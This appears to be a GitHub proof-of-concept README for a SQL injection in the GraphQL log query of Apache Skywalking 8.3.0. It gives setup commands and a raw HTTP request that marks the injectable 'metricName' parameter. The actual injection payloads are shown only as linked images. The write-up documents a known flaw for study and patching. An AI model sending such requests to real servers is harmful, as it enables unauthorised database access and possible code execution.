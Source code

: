 # POC_Apache_Skywalking-8.3.0_SQL_Injection_to_RCE
Application performance monitor tool for distributed systems, especially designed for microservices, cloud native and container-based (Docker, Kubernetes, Mesos) architectures.

In GraphQL interfaces of Apache Skywalking 8.3.0 and previous, there is a H2 Database SQL injection vulnerability.

# Vulnerability environment
Let's install Apache Skywalking 8.3.0 using the following commands.<br>
# Prerequisites
Java Development Kit (JDK): Apache Skywalking requires Java to run. Make sure you have Java 8 or later installed on your system
```bash
sudo apt update && sudo apt install openjdk-11-jdk -y
```
Set Environment Variables
```bash 
export JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64
```
# Download Apache Skywalking 8.3.0
```bash
wget https://archive.apache.org/dist/skywalking/8.3.0/apache-skywalking-apm-8.3.0.tar.gz
```
Extract the downloaded archive
```bash
tar -zxvf apache-skywalking-apm-8.3.0.tar.gz
```
Start Apache Skywalking
```bash
cd apache-skywalking-apm-bin/bin
./startup.sh
```
After the environment is started, visit http://your-ip:8080 to view the Skywalking page.
# POC
The HTTP request of this GraphQL query is
```bash
POST /graphql HTTP/1.1
Host: 192.168.1.12:8080
Content-Length: 405
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.1.12:8080
Referer: http://192.168.1.12:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"sqli",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```
I using BurpSuite to send the following GraphQL query below
![Alt Text](https://github.com/NeedMor3Coffee/POC_Apache_Skywalking-8.3.0_SQL_Injection_Vulnerability_to_RCE/blob/main/graphql_exploit.jpg)
It can be seen that the SQL statement has raised error, and the value of the metricName parameter has been injected ​​after from.
![Alt Text](https://github.com/NeedMor3Coffee/POC_Apache_Skywalking-8.3.0_SQL_Injection_Vulnerability_to_RCE/blob/main/error.jpg)
This can lead to SQL_Injection attack by injecting SQL as follows:
![Alt Text](https://github.com/NeedMor3Coffee/POC_Apache_Skywalking-8.3.0_SQL_Injection_Vulnerability_to_RCE/blob/main/sql_injection1.png)

# References:
https://youtu.be/CtkhTjB95Z0












